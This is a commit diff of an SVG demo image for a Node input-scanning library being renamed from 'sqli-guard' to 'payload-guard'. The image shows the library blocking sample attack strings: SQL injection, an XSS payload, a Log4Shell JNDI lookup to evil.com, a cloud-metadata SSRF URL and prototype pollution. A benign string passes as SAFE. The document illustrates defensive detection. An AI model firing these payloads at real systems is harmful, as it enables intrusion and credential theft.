

- <svg xmlns="http://www.w3.org/2000/svg" width="900" height="512" viewBox="0 0 900 512" role="img" aria-label="sqli-guard scanning malicious and safe inputs">
+ <svg xmlns="http://www.w3.org/2000/svg" width="900" height="512" viewBox="0 0 900 512" role="img" aria-label="payload-guard scanning malicious and safe inputs">
  <rect width="900" height="512" rx="12" fill="#0d1117" stroke="#30363d" />
  <rect width="900" height="44" rx="12" fill="#161b22" />
  <rect y="30" width="900" height="14" fill="#161b22" />
  <circle cx="26" cy="22" r="6" fill="#ff5f56" />
  <circle cx="48" cy="22" r="6" fill="#ffbd2e" />
  <circle cx="70" cy="22" r="6" fill="#27c93f" />
-   <text x="450" y="27" text-anchor="middle" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="13" fill="#8b949e">node — sqliGuard.scan()</text>
-   <text x="36" y="76" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="14" fill="#58a6ff">const sqliGuard = require('sqli-guard');</text>
+   <text x="450" y="27" text-anchor="middle" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="13" fill="#8b949e">node — payloadGuard.scan()</text>
+   <text x="36" y="76" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="14" fill="#58a6ff">const payloadGuard = require('payload-guard');</text>
  <text x="36" y="104" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="15" fill="#8b949e">&gt;</text>
  <text x="56" y="104" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="15" fill="#e6edf3">' OR 1=1 --</text>
  <rect x="56" y="114" width="66" height="22" rx="5" fill="#f8514922" stroke="#f85149" />
  <text x="89" y="130" text-anchor="middle" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="13" font-weight="700" fill="#f85149">✖ BLOCKED</text>
  <text x="136" y="130" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="13" fill="#d29922">sql-injection</text>
  <text x="36" y="160" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="15" fill="#8b949e">&gt;</text>
  <text x="56" y="160" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="15" fill="#e6edf3">&lt;img src=x onerror=alert(1)&gt;</text>
  <rect x="56" y="170" width="66" height="22" rx="5" fill="#f8514922" stroke="#f85149" />
  <text x="89" y="186" text-anchor="middle" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="13" font-weight="700" fill="#f85149">✖ BLOCKED</text>
  <text x="136" y="186" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="13" fill="#d29922">xss</text>
  <text x="36" y="216" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="15" fill="#8b949e">&gt;</text>
  <text x="56" y="216" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="15" fill="#e6edf3">%27%20UN/**/ION%20SELECT%20password%20FROM%20users</text>
  <rect x="56" y="226" width="66" height="22" rx="5" fill="#f8514922" stroke="#f85149" />
  <text x="89" y="242" text-anchor="middle" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="13" font-weight="700" fill="#f85149">✖ BLOCKED</text>
  <text x="136" y="242" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="13" fill="#d29922">sql-injection<tspan fill="#bc8cff">  ⚑ decoded evasion</tspan>
  </text>
  <text x="36" y="272" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="15" fill="#8b949e">&gt;</text>
  <text x="56" y="272" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="15" fill="#e6edf3">${jndi:ldap://evil.com/a}</text>
  <rect x="56" y="282" width="66" height="22" rx="5" fill="#f8514922" stroke="#f85149" />
  <text x="89" y="298" text-anchor="middle" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="13" font-weight="700" fill="#f85149">✖ BLOCKED</text>
  <text x="136" y="298" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="13" fill="#d29922">ssrf · log4shell</text>
  <text x="36" y="328" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="15" fill="#8b949e">&gt;</text>
  <text x="56" y="328" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="15" fill="#e6edf3">http://169.254.169.254/latest/meta-data/</text>
  <rect x="56" y="338" width="66" height="22" rx="5" fill="#f8514922" stroke="#f85149" />
  <text x="89" y="354" text-anchor="middle" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="13" font-weight="700" fill="#f85149">✖ BLOCKED</text>
  <text x="136" y="354" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="13" fill="#d29922">ssrf</text>
  <text x="36" y="384" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="15" fill="#8b949e">&gt;</text>
  <text x="56" y="384" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="15" fill="#e6edf3">{"__proto__":{"isAdmin":true}}</text>
  <rect x="56" y="394" width="66" height="22" rx="5" fill="#f8514922" stroke="#f85149" />
  <text x="89" y="410" text-anchor="middle" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="13" font-weight="700" fill="#f85149">✖ BLOCKED</text>
  <text x="136" y="410" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="13" fill="#d29922">prototype-pollution</text>
  <text x="36" y="440" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="15" fill="#8b949e">&gt;</text>
  <text x="56" y="440" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="15" fill="#e6edf3">Hello, my name is Ana</text>
  <rect x="56" y="450" width="78" height="22" rx="5" fill="#3fb95022" stroke="#3fb950" />
  <text x="95" y="466" text-anchor="middle" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="13" font-weight="700" fill="#3fb950">✔ SAFE</text>
  <text x="148" y="466" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,monospace" font-size="13" fill="#d29922" />
</svg>
